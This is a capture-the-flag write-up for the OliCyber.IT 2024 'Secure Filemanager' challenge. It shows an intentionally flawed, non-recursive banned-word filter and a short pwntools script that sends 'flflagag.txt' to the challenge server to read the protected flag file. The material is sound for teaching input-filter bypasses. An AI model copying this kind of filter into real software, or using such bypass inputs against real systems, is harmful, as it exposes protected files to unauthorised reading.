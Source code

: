 # OliCyber.IT 2024 - Regional CTF

## [misc] Secure Filemanager (104 solves)

Revolutionary file repositiory with sensitive file protection

```python
bannedwords = ['flag', 'secret', 'password', 'key']

# The user input is cleaned up from banned words
def cleanup(filename):
  for word in bannedwords:
    filename = filename.replace(word, '')
  return filename
```

`nc secure-filemanager.challs.external.open.ecsc2024.it 38104`

Author: Giovanni Minotti <@Giotino>

## Solution

The `cleanup` function is broken since it doesn't censor recursively. This means that if we have a nested banned word like `flflagag.txt` it will be cleaned as `flag.txt`.

## Exploit

```python
#!/usr/bin/env python3

import os
from pwn import *

logging.disable()

HOST = os.environ.get("HOST", "secure-filemanager.challs.external.open.ecsc2024.it")
PORT = int(os.environ.get("PORT", 38104))

with remote(HOST, PORT) as r:
    r.recvuntil(b'Read file: ')
    r.sendline(b'flflagag.txt')
    r.recvline()
    print(r.recvline())
```
